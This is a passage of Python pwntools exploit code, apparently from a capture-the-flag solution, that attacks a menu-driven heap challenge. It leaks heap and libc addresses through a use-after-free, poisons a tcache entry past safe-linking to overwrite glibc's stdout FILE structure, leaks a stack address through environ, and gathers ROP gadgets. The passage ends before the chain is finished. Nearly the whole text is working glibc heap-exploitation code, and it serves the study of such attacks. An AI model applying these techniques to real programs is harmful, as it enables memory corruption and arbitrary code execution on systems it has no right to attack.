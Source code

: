 ```python
def view(idx):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'idx: ',f'{idx}'.encode())

for i in range(7): malloc(i,0x100,b'')

free(0)
view(0)

heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000 - 0x2000
log.info(f'heap_base: {hex(heap_base)}')

malloc(0,0x100,b'')
malloc(7,0x100,b'')
malloc(8,0x100,b'')


for i in range(7): free(i)
for i in range(20): malloc(9,0x10,b'flag.txt\0')

free(8)

view(8)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x219ce0
log.info(f'libc: {hex(libc.address)}')
log.info(f'stdout: {hex(libc.address+0x21a780)}')

free(7)

malloc(0,0x100,b'')
free(8)

payload = b'a'*0x108 + p64(0x111) + p64(libc.address+0x21a780 ^ (heap_base+0x2b90>>12))
malloc(1,0x130,payload)
malloc(2,0x100,b'nothing')
'''
payload2 = flat(
        0xfbad1800, # _flags
        libc.sym.environ, # _IO_read_ptr
        libc.sym.environ, # _IO_read_end
        libc.sym.environ, # _IO_read_base
        libc.sym.environ, # _IO_write_base
        libc.sym.environ + 0x8, # _IO_write_ptr
        libc.sym.environ + 0x8, # _IO_write_end
        libc.sym.environ + 0x8, # _IO_buf_base
        libc.sym.environ + 8, # _IO_buf_end
        )
'''
payload2 = p64(0xfbad1800) + p64(libc.sym.environ)*4 + p64(libc.sym.environ+8)*4
print(payload2)
malloc(3,0x100,payload2)

stack_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'stack: {hex(stack_leak)}')

saved_rbp_fgets = stack_leak - (0x188)
log.info(f'saved_rbp_fgets: {hex(saved_rbp_fgets)}')
pop_rsi = 0x000000000002be51+libc.address
pop_rdi = 0x000000000002a3e5 + libc.address
pop_rdx_rbx = 0x0000000000090529 + libc.address
pop_rax = 0x0000000000045eb0 + libc.address
syscall = 0x0000000000091396 + libc.address
free(8)
```